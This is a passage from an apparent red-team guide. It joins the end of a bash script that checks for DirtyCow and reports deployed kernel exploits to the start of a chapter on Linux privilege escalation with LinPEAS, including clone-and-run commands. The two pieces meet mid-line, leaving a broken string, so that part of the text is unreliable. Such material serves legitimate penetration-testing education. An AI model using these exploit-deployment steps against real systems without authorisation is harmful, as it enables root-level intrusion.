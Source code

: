 ```bash

echo ""

# DirtyCow check
if check_dirtycow; then
    EXPLOITS_FOUND=$((EXPLOITS_FOUND + 1))
fi

echo ""
echo "[+] Exploit deployment completed"
echo "    Found $EXPLOITS_FOUND potential kernel exploits"
echo "    Check the current directory for compiled exploits"
echo ""
echo "Remember to clean up after successful privilege escalation# Chapter 11: Privilege Escalation

Privilege escalation is a critical phase in red team operations that follows initial access. After gaining a foothold on a target system—often with limited permissions—attackers must elevate their privileges to achieve their objectives. This chapter explores the tools and techniques for privilege escalation on Linux systems, providing red team operators with the knowledge to move from unprivileged users to root or system-level access.

## LinPEAS/WinPEAS: Privilege Escalation Scanning

The Privilege Escalation Awesome Scripts (PEAS) suite consists of LinPEAS for Linux targets and WinPEAS for Windows environments. These powerful scripts automate the reconnaissance process of privilege escalation, saving time and ensuring comprehensive coverage during red team operations.

### LinPEAS: Linux Privilege Escalation Awesome Script

LinPEAS is a script that searches for possible paths to escalate privileges on Linux hosts, dramatically accelerating the post-exploitation phase by highlighting potential security misconfigurations and vulnerabilities.

#### Installation and Setup

LinPEAS can be obtained from its GitHub repository:

```bash
# Clone the repository
git clone https://github.com/carlospolop/PEASS-ng.git
cd PEASS-ng/linPEAS

# Make the script executable
chmod +x linpeas.sh
```

#### Deployment Methods

Several methods exist to deploy LinPEAS on a target system:

1. **Direct Download** (if the target has internet access):
